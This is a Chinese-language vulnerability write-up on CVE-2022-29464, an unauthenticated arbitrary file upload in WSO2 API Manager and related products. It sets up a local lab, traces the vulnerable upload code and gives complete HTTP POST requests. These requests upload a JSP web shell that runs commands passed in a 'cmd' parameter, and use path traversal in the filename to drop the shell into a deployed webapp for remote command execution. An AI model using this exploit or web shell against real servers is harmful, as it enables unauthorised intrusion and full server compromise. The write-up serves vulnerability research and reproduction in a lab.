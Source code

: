 # WSO2 fileupload 任意文件上传漏洞 CVE-2022-29464

## 漏洞描述

CVE-2022-29464 是 Orange Tsai发现的 WSO2 上的严重漏洞。该漏洞是一种未经身份验证的无限制任意文件上传，允许未经身份验证的攻击者通过上传恶意 JSP 文件在 WSO2 服务器上获得 RCE。

## 漏洞影响

<a-checkbox checked>WSO2 API Manager 2.2.0 and above</a-checkbox></br>

<a-checkbox checked>WSO2 Identity Server 5.2.0 and above</a-checkbox></br>

<a-checkbox checked>WSO2 Identity Server Analytics 5.4.0, 5.4.1, 5.5.0, 5.6.0</a-checkbox></br>

<a-checkbox checked>WSO2 Identity Server as Key Manager 5.3.0 and above</a-checkbox></br>

<a-checkbox checked>WSO2 Enterprise Integrator 6.2.0 and above</a-checkbox></br>

## 环境搭建

[https://github.com/wso2/product-apim/releases/download/v4.0.0/wso2am-4.0.0.zip](https://github.com/wso2/product-apim/releases/download/v4.0.0/wso2am-4.0.0.zip)

[https://github.com/wso2/product-apim/archive/refs/tags/v4.0.0.zip](https://github.com/wso2/product-apim/archive/refs/tags/v4.0.0.zip)

## 漏洞复现

下载 releases 后进入 bin目录, 执行 api.manager.sh文件，并开启 debug 方便远程调试

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1650767358343-2616cdd3-9166-4445-ad9a-4ea0277e1736.png)

打开 product-apim-4.0.0 ，下载依赖，连接Debug进行调试分析

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1650804508335-ad372814-53fb-4c65-bb31-6197790a97a5.png)

运行后访问 localhost:9443 出现如下即搭建完成![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1650767529092-33b5d581-f964-4f82-a614-29584a71b160.png)

在配置文件 identity.xml 中我们可以看到 路由 `/fileupload` 中不存在权限鉴定,  对应的 Servlet 为 FileUploadServlet

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1650801767796-769caf29-8c4c-4b39-940d-f8cdb15f089d.png)

文件上传为POST请求，对应的处理方法为 `doPost (org.wso2.carbon.ui.transports.FileUploadServlet#doPost)`

```java
protected void doPost(HttpServletRequest request,
                          HttpServletResponse response) throws ServletException, IOException {

        try {
            fileUploadExecutorManager.execute(request, response);
        } catch (Exception e) {
            String msg = "File upload failed ";
            log.error(msg, e);
            throw new ServletException(e);
        }
    }
```

继续向下，略过调用方法的过程

```java
execute:55, ToolsAnyFileUploadExecutor (org.wso2.carbon.ui.transports.fileupload)
executeGeneric:104, AbstractFileUploadExecutor (org.wso2.carbon.ui.transports.fileupload)
execute:436, FileUploadExecutorManager$CarbonXmlFileUploadExecHandler (org.wso2.carbon.ui.transports.fileupload)
startExec:320, FileUploadExecutorManager$FileUploadExecutionHandlerManager (org.wso2.carbon.ui.transports.fileupload)
execute:127, FileUploadExecutorManager (org.wso2.carbon.ui.transports.fileupload)
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1650801837586-39bf1075-e0d5-4932-a808-e7f0e397b164.png)

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1650802004637-1ac012b2-2978-41cb-bf15-13c863457ee3.png)

最后来到出现漏洞的位置 `org.wso2.carbon.ui.transports.fileupload.ToolsAnyFileUploadExecutor#execute`

这里我们构造请求包，上传文件

```java
POST /fileupload/toolsAny HTTP/1.1
Host: localhost:9443
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 729
Content-Type: multipart/form-data; boundary=4ef9f369a86bfaadf5ec3177278d49c0
User-Agent: python-requests/2.22.0

--4ef9f369a86bfaadf5ec3177278d49c0
Content-Disposition: form-data; name="1.jsp"; filename="1.jsp"

<FORM>
    <INPUT name='cmd' type=text>
    <INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
    <%
    String cmd = request.getParameter("cmd");
    String output = "";
    if(cmd != null) {
        String s = null;
        try {
            Process p = Runtime.getRuntime().exec(cmd,null,null);
            BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
            while((s = sI.readLine()) != null) { output += s+"</br>"; }
        }  catch(IOException e) {   e.printStackTrace();   }
    }
%>
        <pre><%=output %></pre>
--4ef9f369a86bfaadf5ec3177278d49c0--
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1650803224176-dbe2a392-a7b5-468a-bc6f-da381ffe0d49.png)

上传时文件名为 1.jsp，成功上传目标会返回 uuid 值, 调试过程中我们可以发现文件被上传在某个目录下

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1650803654297-7c813794-2c58-4f63-aa8d-fac097a5bb90.png)

```php
public class ToolsAnyFileUploadExecutor extends AbstractFileUploadExecutor {

	@Override
	public boolean execute(HttpServletRequest request,
			HttpServletResponse response) throws CarbonException, IOException {
		PrintWriter out = response.getWriter();
        try {
        	Map fileResourceMap =
                (Map) configurationContext
                        .getProperty(ServerConstants.FILE_RESOURCE_MAP);
        	if (fileResourceMap == null) {
        		fileResourceMap = new TreeBidiMap();
        		configurationContext.setProperty(ServerConstants.FILE_RESOURCE_MAP,
                                             fileResourceMap);
        	}
            List<FileItemData> fileItems = getAllFileItems();
            //String filePaths = "";

            for (FileItemData fileItem : fileItems) {
                String uuid = String.valueOf(
                        System.currentTimeMillis() + Math.random());
                String serviceUploadDir =
                        configurationContext
                                .getProperty(ServerConstants.WORK_DIR) +
                                File.separator +
                                "extra" + File
                                .separator +
                                uuid + File.separator;
                File dir = new File(serviceUploadDir);
                if (!dir.exists()) {
                    dir.mkdirs();
                }
                File uploadedFile = new File(dir, fileItem.getFileItem().getFieldName());
                try (FileOutputStream fileOutStream = new FileOutputStream(uploadedFile)) {
                    fileItem.getDataHandler().writeTo(fileOutStream);
                    fileOutStream.flush();
                }
                response.setContentType("text/plain; charset=utf-8");
                //filePaths = filePaths + uploadedFile.getAbsolutePath() + ",";
                fileResourceMap.put(uuid, uploadedFile.getAbsolutePath());
                out.write(uuid);
            }
            //filePaths = filePaths.substring(0, filePaths.length() - 1);
            //out.write(filePaths);
            out.flush();
        } catch (Exception e) {
            log.error("File upload FAILED", e);
            out.write("<script type=\"text/javascript\">" +
                    "top.wso2.wsf.Util.alertWarning('File upload FAILED. File may be non-existent or invalid.');" +
                    "</script>");
        } finally {
            out.close();
        }
        return true;
	}

}
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1650803736519-90e242b2-1478-4966-8bc5-5ef86402537c.png)

但文件名是我们可控的，拼接的过程中我们通过控制文件名遍历目录，将文件上传到我们需要的位置,  查找可以解析 jsp文件的目录 

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1650803934233-733ce8ed-97da-4ece-acbf-c535d4704b34.png)

构造请求包，通过控制文件名的方法上传至该目录中

```java
POST /fileupload/toolsAny HTTP/1.1
Host: localhost:9443
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 729
Content-Type: multipart/form-data; boundary=4ef9f369a86bfaadf5ec3177278d49c0
User-Agent: python-requests/2.22.0

--4ef9f369a86bfaadf5ec3177278d49c0
Content-Disposition: form-data; name="../../../../repository/deployment/server/webapps/authenticationendpoint/1.jsp"; filename="../../../../repository/deployment/server/webapps/authenticationendpoint/1.jsp"

<FORM>
    <INPUT name='cmd' type=text>
    <INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
    <%
    String cmd = request.getParameter("cmd");
    String output = "";
    if(cmd != null) {
        String s = null;
        try {
            Process p = Runtime.getRuntime().exec(cmd,null,null);
            BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
            while((s = sI.readLine()) != null) { output += s+"</br>"; }
        }  catch(IOException e) {   e.printStackTrace();   }
    }
%>
        <pre><%=output %></pre>
--4ef9f369a86bfaadf5ec3177278d49c0--
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1650804126298-f5cf8a01-075b-4c27-889a-8ba2eb5664ab.png)

访问上传的文件，`/authenticationendpoint/xxx.jsp?cmd=ls`

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1650804305810-0c37ec79-0f9d-4eaa-9908-c223dca40471.png)